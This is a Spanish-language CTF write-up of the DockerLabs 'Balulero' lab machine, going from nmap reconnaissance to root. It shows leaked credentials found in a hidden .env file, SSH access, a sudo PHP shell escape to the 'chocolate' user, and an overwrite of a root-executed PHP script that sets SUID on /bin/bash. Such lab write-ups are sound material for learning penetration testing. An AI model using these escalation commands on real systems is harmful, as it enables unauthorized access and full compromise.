





# 🧠 Informe de Pentesting – Máquina: Balulero

### 💡 Dificultad: Fácil

### 🧩 Plataforma: DockerLabs


---

# ⚙️ Despliegue de la máquina

Antes de comenzar el proceso de reconocimiento y explotación, se procede al despliegue del laboratorio vulnerable proporcionado por DockerLabs.

La máquina se distribuye comprimida en formato `.zip`, incluyendo la imagen Docker necesaria para su ejecución y un script automatizado encargado de simplificar el proceso de despliegue.

Para iniciar el entorno vulnerable se ejecutan los siguientes comandos:

```bash
unzip balulero.zip
sudo bash auto_deploy.sh balulero.tar
```

## Explicación

* **unzip balulero.zip** → Extrae los archivos necesarios para el despliegue.
* **auto_deploy.sh** → Automatiza la carga de la imagen Docker y la creación del contenedor.
* **balulero.tar** → Imagen utilizada para desplegar la máquina vulnerable.

Una vez finalizado el proceso, el contenedor queda disponible dentro de la red interna de Docker.


---

# 📡 Verificación de conectividad

Antes de iniciar las fases de reconocimiento, se valida la disponibilidad del objetivo dentro de la red.

```bash
ping -c 4 172.17.0.2
```

## Explicación de parámetros

* **ping** → Herramienta utilizada para comprobar conectividad mediante paquetes ICMP.
* **-c 4** → Envía únicamente cuatro solicitudes ICMP.

La recepción de respuestas confirma:

* Disponibilidad del objetivo
* Conectividad funcional entre atacante y víctima
* Baja latencia esperada en entornos Docker


---

# 🔍 Fase de reconocimiento – Enumeración de puertos

La fase inicial de reconocimiento se centra en identificar la superficie de exposición del objetivo.

Para ello se realiza un escaneo completo sobre todos los puertos TCP:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2
```

## Explicación detallada

* **-p-** → Escanea los 65535 puertos TCP.
* **--open** → Muestra únicamente puertos abiertos.
* **-sS** → Realiza un SYN Scan.
* **--min-rate 5000** → Incrementa la velocidad de envío.
* **-vvv** → Aumenta la verbosidad.
* **-n** → Evita resolución DNS.
* **-Pn** → Omite el descubrimiento previo del host.

---

## Resultado del reconocimiento

El análisis revela únicamente dos servicios expuestos:

* **22/tcp → SSH**
* **80/tcp → HTTP**

La reducida superficie de ataque sugiere que la explotación probablemente se centrará en el servicio web.

---

# 🔬 Enumeración de servicios

Con los puertos identificados, se realiza una enumeración más profunda.

```bash
nmap -sCV -p22,80 172.17.0.2
```

## Explicación

* **-sC** → Ejecuta scripts NSE básicos.
* **-sV** → Identifica versiones.
* **-p22,80** → Limita el análisis.

Durante esta fase se confirma:

* Servicio SSH activo
* Servidor web funcional
* Posibles vectores relacionados con autenticación


---

# 🌐 Enumeración web

Se accede al servicio HTTP:

```bash
http://172.17.0.2
```

La página presenta un formulario de autenticación simple.



Inicialmente se realizan pruebas básicas de enumeración y fuzzing sobre rutas y parámetros, sin identificar vectores explotables evidentes.

Debido a la ausencia de resultados, se procede al análisis del código fuente del sitio.

Durante esta revisión se identifica una referencia hacia:

```text
script.js
```



---

# 🔎 Análisis del código cliente

Al inspeccionar el archivo JavaScript se identifica una referencia sospechosa hacia un archivo oculto.

El atacante accede mediante:

```bash
view-source:http://172.17.0.2/.env_de_baluchingon
```

El contenido revela información sensible:

```text
RECOVERY LOGIN

balu:balubalulerobalulei
```

La aplicación expone credenciales válidas dentro de archivos accesibles públicamente.



---

# 🔐 Obtención de acceso inicial

Utilizando las credenciales filtradas se intenta autenticación SSH:

```bash
ssh balu@172.17.0.2
```

Contraseña:

```text
balubalulerobalulei
```

El acceso resulta exitoso.

Se obtiene una shell válida como:

```text
balu
```

Con esto concluye la fase de acceso inicial.

---

# 🔑 Fase 1: Movimiento lateral — De `balu` a `chocolate`

Una vez dentro del sistema, el atacante enumera privilegios sudo:

```bash
sudo -l
```

Salida:

```text
(chocolate) NOPASSWD: /usr/bin/php
```

Esto permite ejecutar PHP como `chocolate`.

Se aprovecha utilizando:

```bash
CMD="/bin/bash"
sudo -u chocolate php -r "system('$CMD');"
```

Explicación:

* PHP ejecuta código arbitrario
* `system()` invoca procesos del sistema
* sudo cambia el contexto al usuario `chocolate`

Verificación:

```bash
whoami
```

Resultado:

```text
chocolate
```

Movimiento lateral completado.



---

# 🚀 Fase 2: Escalada vertical — De `chocolate` a `root`

## Enumeración de procesos

Se identifican procesos activos:

```bash
ps aux
```

Proceso relevante:

```bash
/bin/sh -c while true; do php /opt/script.php; sleep 5; done
```

Esto revela ejecución continua de un script PHP.

---

## Revisión de permisos

```bash
ls -la /opt/script.php
```

Resultado:

```text
-rw-r--r-- 1 chocolate chocolate 59 May 7 2024 /opt/script.php
```

Problema identificado:

* Root ejecuta el script
* chocolate controla el archivo

Existe posibilidad de secuestro de ejecución.

---

## Inyección de código malicioso

Se reemplaza el contenido:

```bash
echo '<?php echo shell_exec("chmod u+s /bin/bash 2>&1"); ?>' > /opt/script.php
```

Objetivo:

Agregar SUID a Bash.

---

## Espera de ejecución privilegiada

El proceso automatizado ejecuta:

```bash
php /opt/script.php
```

Tras algunos segundos:

```bash
ls -la /bin/bash
```

Resultado:

```text
-rwsr-xr-x
```

El bit SUID quedó aplicado.

---

## Obtención de privilegios máximos

Se ejecuta:

```bash
bash -p
```

Validación:

```bash
whoami
```

Resultado:

```text
root
```

Compromiso total logrado.



---
